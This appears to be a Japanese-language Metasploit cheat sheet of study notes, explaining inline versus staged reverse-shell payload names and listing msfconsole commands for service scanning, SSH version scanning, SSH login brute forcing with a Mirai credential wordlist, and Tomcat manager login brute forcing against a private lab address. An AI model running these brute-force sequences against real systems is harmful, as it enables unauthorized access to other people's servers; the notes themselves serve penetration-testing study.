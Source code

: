 #### ペイロードの種類について

```text
generic/shell_reverse_tcp
windows/x64/shell/reverse_tcp

shellの後が _ か / かの違いに注意。
前者はインライン（単一）ペイロード、後者はステージングされたペイロード。
ステージングとは、stagersを先に配置し、そこからstagesの部分をダウンロードする方式のこと。
```

## 使用例

### 開いているポートとサービスを確認する

```shell
msf6 > nmap -sV <target>
```

### SSH バージョンをスキャンする攻撃

```shell
msf6 > use scanner/ssh/ssh_version
msf6 auxiliary(scanner/ssh/ssh_version) > show options
msf6 auxiliary(scanner/ssh/ssh_version) > set THREADS 2
msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.11.12
msf6 auxiliary(scanner/ssh/ssh_version) > run
```

### SSH ログインのブルートフォース攻撃

```shell
msf6 > search ssh login
msf6 auxiliary(scanner/ssh/ssh_version) > use auxiliary/scanner/ssh/ssh_login
sf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.11.12
RHOSTS => 192.168.11.12
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 3
THREADS => 3
msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/wordlists/metasploit/mirai_user_pass.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

### Tomcat の管理者ログインをブルートフォース攻撃

```shell
msf6 > use scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > show options
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 192.168.11.12
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
```
